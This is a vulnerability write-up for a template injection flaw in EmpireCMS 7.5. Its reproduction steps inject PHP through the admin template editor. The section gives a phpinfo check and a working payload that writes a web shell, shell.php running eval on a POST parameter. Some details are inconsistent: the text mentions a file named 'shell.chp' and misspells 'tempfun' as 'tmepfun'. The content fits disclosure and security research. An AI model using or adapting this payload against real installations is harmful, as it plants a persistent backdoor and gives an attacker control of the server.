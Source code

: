 # EmpireCMS-Getshell

### Introduction to EmpireCMS 

EmpireCMS is an open-source content management system (CMS).

download link：http://www.phome.net/downcenter/empirecms/ecms75/download/EmpireCMS_7.5_SC_UTF8.zip

### Vulnerability description

EmpireCMS v7.5 has a template injection vulnerability. An authenticated remote attacker can exploit this vulnerability to inject malicious content through the PreviewIndexpage class in e/class/tempfun.php, thereby getting the shell.

### vulnerability analysis

The vulnerability exists in line 425 of tmepfun. Due to the lack of effective validation of the parameter content passed in by the frontend, malicious content can be referenced and generate an index page template file, resulting in malicious content being written

![image-20231206113402099](image/image-20240730103644857.png)

### Vulnerability reproduction

1、Log in to the backend  -> check "模板" -> "管理首页方案" -> Modify template content:

```
Vulnerability verification POC ：<?php phpinf0(); ?>
```

![image-20240730104109557](EmpireCMS-Getshell.assets/image-20240730104109557.png)

2、After submitting, click "预览"：

![image-20240730104436737](EmpireCMS-Getshell.assets/image-20240730104436737.png)

The injected malicious content is referenced and executed：

![image-20240730104534523](EmpireCMS-Getshell.assets/image-20240730104534523.png)

3、The server generates indexpage temporary file，The path is：/e/data/tmp/indexpage{tempid}.php

![image-20240730104922561](EmpireCMS-Getshell.assets/image-20240730104922561.png)

4、POC and change to：

```
test <?php fputs(fopen('shell.php','w'),'<?php eval($_POST[9527])?>');?>
```

Automatically generate shell.chp in e/admin

![image-20240730110245130](EmpireCMS-Getshell.assets/image-20240730110245130.png)



![image-20240730110005192](EmpireCMS-Getshell.assets/image-20240730110005192.png)
